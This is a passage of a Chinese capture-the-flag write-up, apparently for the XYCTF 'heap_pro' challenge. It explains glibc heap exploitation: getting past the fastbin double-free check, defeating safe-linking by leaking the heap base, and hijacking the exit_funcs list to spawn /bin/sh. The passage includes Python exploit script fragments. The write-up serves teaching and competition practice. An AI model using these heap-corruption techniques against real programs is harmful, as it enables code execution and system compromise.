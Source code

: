 - 首先是在fastbin上构造出两个以上的chunk 然后free第二个chunk 来绕过fastbin中检查double free的机制（fastbin会检查你free的是否为第一个chunk）

  ```python
  if (__builtin_expect(old == p, 0))
  	malloc_printerr("double free or corruption (fasttop)");
  p->fd = PROTECT_PTR(&p->fd, old);
  *fb = p;
  ```

![image-20240420123457567](https://awaqwqa.github.io/img/xyctf_heap_pro/image-20240420123457567.png)

- 然后将利用开始构造好的fakechunk进行free

  ```python
  delete(5)
  ```

  ![image-20240420123602766](https://awaqwqa.github.io/img/xyctf_heap_pro/image-20240420123602766.png)

### fd加密机制

> glibc高版本加入的fd加密机制 让我们没办法直接覆盖fd 绕过也很简单泄露heap地址即可

- fd需要是heap基地址^目标地址

## 劫持exit_funcs链表

> 最难崩的一步 因为我们需要劫持这个链表所以我们需要再一次触发fastbin的合并构造double free 然后指向exit_func处 进行覆写
>
> 本地打这个感觉还行 但是打远程的时候我脚本足足要跑20分钟 并且还因为比赛方平台网络不是特别好 导致我反复失败 最终跑了一晚上才跑出来

- 难点
  - 因为上一次double free 导致tcache 中一条链已经存在一个无效的chunk地址(大概率不对齐) 所以我们下一次double free的时候就不能选择这个size大小的链了

```python

# size: 0x20c30
for i in range(758):
    add(14,128,b"a"*8)
for i in range(11):
    add(i,0x18,b"a"*8)
add_with_no_chunk(14)
for i in range(11):
    delete(i)
# 将topchunk消耗空触发合并
add(14,0x68,b"a"*8)

# 指定free index 6 可以实现任意free
# free_chunk就是后续构造double free的chunk地址
free_chunk = base_heap+271376+0x10
add(14,128,b"a"*8*4+p64(0)+p64(0x31)+p64(0x100)+p64(1)+p64(free_chunk))
# 填写binsh只是为了后续调用system函数的时候可以找个地址来当作参数
for i in range(6):
    add(i,0x68,b"/bin/sh\x00")
for i in range(7,13):
    add(i,0x68,b"/bin/sh\x00")
for i in range(6):
    delete(i)
for i in range(7,13):
    delete(i)
# 触发double free
delete(6)
for i in range(7):
    add(i,0x68,b"a"*8)
# 将fd指向exit_function地址处
add(i,0x68,p64((xor+0x21)^exit_function))
add(0,0x68,b"a"*8)
```